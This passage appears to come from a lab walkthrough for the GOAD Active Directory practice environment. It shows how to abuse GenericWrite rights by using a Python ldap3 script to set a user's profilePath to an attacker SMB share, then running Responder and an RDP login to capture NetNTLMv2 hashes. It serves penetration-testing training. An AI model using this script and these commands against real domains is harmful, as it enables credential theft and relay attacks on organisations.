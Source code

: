![acl_modify_ldap_scriptpath.png](/assets/blog/GOAD/acl_modify_ldap_scriptpath.png)

- but sadly this won't work... :'( (if you know why please let me know, this seems to work only if the script is already located in sysvol)

- Another way to abuse the GenericWrite is by changing the profilePath and wait for a connection to get a NetNtlmv2 authentication and relay to another computer or crack it.

- Change the value of profilePath with the following script :

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"
server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'profilePath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share')]})
print(ldap_con.result)
ldap_con.unbind()
```

- Start responder and simulate joffrey connection by starting an RDP connection

```bash
responder -I vboxnet0
xfreerdp /d:sevenkingdoms.local /u:joffrey.baratheon /p:'1killerlion' /v:192.168.56.10 /size:80%  /cert-ignore
```

- And we get the NetNLMV2 hash of joffrey.baratheon and... kingslanding$ !

![acl_profilePath.png](/assets/blog/GOAD/acl_profilePath.png)
